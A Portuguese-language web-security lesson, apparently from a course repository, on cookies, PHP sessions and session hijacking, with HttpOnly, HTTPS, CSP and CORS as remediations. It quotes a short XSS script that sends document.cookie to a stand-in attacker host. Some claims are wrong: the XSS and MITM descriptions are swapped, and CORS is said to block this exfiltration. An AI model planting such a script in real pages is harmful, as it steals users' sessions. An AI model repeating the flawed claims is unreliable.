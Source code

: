 # Cookie e Sessão


## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles se mostram úteis, uma vez que 
o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistente. Se dependêssemos apenas das conexões HTTP, seria impossível usar um carrinho de compras, pois ao trocar para a página de compra, as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_ no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente como volume do player de música ou vídeo, cor do fundo do site, etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito pelo PHP.
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar a sessão (mas ainda não é uma sessão), de forma que um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de vida (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador.

## Sessões

Agora, ao que nos interessa, **os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É graças às sessões que é possível se logar em sites de redes sociais apenas uma vez em muito tempo. Quando o usuário se conecta, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa. A maioria dos sites que implementa esse recurso estabelece uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão o _cookie_ não existe, então o site manda o browser salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o browser mudar para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo para se tornar administrador do site, burlando todo o sistema de segurança.

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid`, _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_, que terá acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** ou Sequestro de Sessão.

Não tem como evitar que alguém que tenha acesso físico ao seu computador com o navegador aberto na página obtenha sua sessão, mas se ele chegou a esse ponto ele já tem controle total.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**), embora menos comum. O primeiro ataque é descrito basicamente com o atacante entrando no meio da conexão não encriptada (HTTP) e lendo todo o tráfego entre você e o site, incluindo os _cookies_ enviados e sua sessão. O segundo ataque resume-se no atacante injetar código na página de aluguma forma ([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)), esse código injetado pode ler e modificar o conteúdo dos _cookies_ armazenados.

#### Exemplo de Session Hijacking por meio de XSS

```htmlmixed
<script type="text/javascript">
new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um script no site dele para salvar o cookie que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.



## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, mas uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de javascript, seja ele legítimo da página ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ (possivelmente uma sessão) ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante. (Mesmo assim, ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS]((https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md))

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
